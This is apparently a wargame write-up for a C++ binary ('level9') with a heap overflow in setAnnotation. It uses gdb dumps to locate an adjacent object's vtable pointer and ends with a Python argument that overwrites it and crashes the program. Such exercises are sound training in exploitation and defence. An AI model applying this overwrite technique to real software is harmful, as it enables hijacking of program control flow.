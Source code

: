 ## C++ is bad too (level9)

This level's [binary](level9/source.cpp) is written in C++. It contains an _N_
class which stores a 100-bytes long character buffer and an int. The character
buffer contents are set with the _setAnnotation_ method. So this binary takes at
least one argument (or it exits) and creates two instances of the class with
C++'s "new" keyword. This basically performs an allocation and sets the int
member of the struct to the given value. There is also two operator functions,
one for '+' and an other for '-', which simply adds or substracts the int member
values and returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

We can see the character buffer from the second word on the first line up to the
end of the second line (from 0x804a00c to 0x804a028), and that it is filled with
our input as expected. At the end of the 7th line there is a word containing the
value 5 (at 0x804a070) which was _a_'s initialization value. _b_ is layed out
simirlarly but with an empty character buffer and its value set to 6 on the last
line (at 0x804a0e0).

Also, both _a_ and _b_ start with the same value 0x08048848. It is the first
word and we can see it again 7 lines down at b's address (0x804a078). If we
check it out, we can see that it points to the address of a function:

```shell
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
(gdb) disass _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:     push   %ebp
   0x0804873b <+1>:     mov    %esp,%ebp
   0x0804873d <+3>:     mov    0x8(%ebp),%eax
   0x08048740 <+6>:     mov    0x68(%eax),%edx
   0x08048743 <+9>:     mov    0xc(%ebp),%eax
   0x08048746 <+12>:    mov    0x68(%eax),%eax
   0x08048749 <+15>:    add    %edx,%eax
   0x0804874b <+17>:    pop    %ebp
   0x0804874c <+18>:    ret
End of assembler dump.
```

This really short function takes two parameters, fetches a value at an offset of
0x68 (104) bytes and adds them. This precisely where the numeric value of the
_N_ class is located. So this is the '+' operator for the class. At the next
address, 4 bytes after we have the '-' operator:

```shell
(gdb) x 0x804874e
0x804874e <_ZN1NmiERS_>:        0x8be58955
```

If we overwrite this value by providing the right payload to the binary, the
program segfaults because _b_'s '+' operator is used at the end of the program.

```shell
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
Segmentation fault (core dumped)
```
